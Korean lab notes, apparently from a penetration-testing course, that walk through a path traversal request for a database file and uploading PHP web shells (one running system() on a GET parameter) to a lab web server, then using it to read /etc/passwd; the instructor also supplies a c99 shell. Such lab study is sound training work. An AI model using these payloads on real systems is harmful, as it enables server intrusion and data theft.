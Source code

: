 ```
GET /board/board_file_download.php?filename=../../db.sql HTTP/1.1

 이렇게 고쳐서 포워드 누르면
 
 

<script>alert('요청하신 파일을 다운로드 할 수 없습니다.');
		history.back();</script>
		
이렇게 뜬다. 
```



### FILE Upload 취약점 (171p)

###### 칼리

웹 쉘 만들기

root@kali-04:~/Downloads# cd ~/Desktop/

root@kali-04:~/Desktop# vim webshell.php

```
<?php	
		system("ls -l");
?>
```

파이어폭스 -> 게시판 -> 글쓰기

upload 제목으로 하고 파일은 webshell.php로

http://172.16.10.20/board/upload/webshell.php



다시 터미널로 와서

root@kali-04:~/Desktop# vim webshell2.php

```
<?php
		system($_GET[aaa]);
?>
```

파이어폭스 -> 게시판 -> 글쓰기 -> 제목 : upload2 파일은 webshell2.php

http://172.16.10.20/board/upload/webshell2.php?aaa=cat/etc/passwd



강사님이 c99, 파일 주심

root@kali-04:~/Desktop# ls

```
c99.zip   dnsspoof.txt  first_blind.py  passwd                 slowloris.pl  webshell2.php
dict.txt  ever_hulk.py  gFncCQxh.jpeg   pentest.co.kr_ips.txt  userlist.txt  webshell.php
```
